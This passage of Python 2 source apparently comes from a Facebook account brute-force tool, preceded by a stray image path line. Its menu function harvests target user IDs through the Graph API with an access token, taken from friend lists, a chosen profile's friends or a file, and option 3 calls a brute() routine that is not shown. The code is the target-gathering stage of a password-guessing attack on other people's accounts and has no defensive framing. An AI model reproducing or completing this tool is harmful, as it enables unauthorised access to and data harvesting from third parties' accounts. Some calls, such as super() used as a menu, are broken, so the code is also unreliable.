 def pilih_super():
	peak = raw_input("\n\033[1;31;40m>>> \033[1;97m")
	if peak =="":
		print "\033[1;97mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo

		jalan('\033[1;97m[✺] Getting IDs \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])

	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;97m[*] Enter ID : ")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;31;40m[✺] Name : "+op["name"]
		except KeyError:
			print"\033[1;97m[✺] ID Not Found!"
			raw_input("\n\033[1;97m[\033[1;97mBack\033[1;97m]")
			super()
		print"\033[1;35;40m[✺] Getting IDs..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="3":
		os.system('clear')
		print logo
		brute()	
	elif peak =="4":
		os.system('clear')
		print logo                  
		try:
			idlist = raw_input('\033[1;97m[+] \033[1;97mEnter the file name \033[1;97m: \033[1;97m')
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print '\x1b[1;35;40m[!] \x1b[1;35;40mFile not found'
			raw_input('\n\x1b[1;35;40m[ \x1b[1;35;40mExit \x1b[1;35;40m]')
			super()
	elif peak =="0":
		menu()
	else:
		print "\033[1;97mFill in correctly"
		pilih_super()
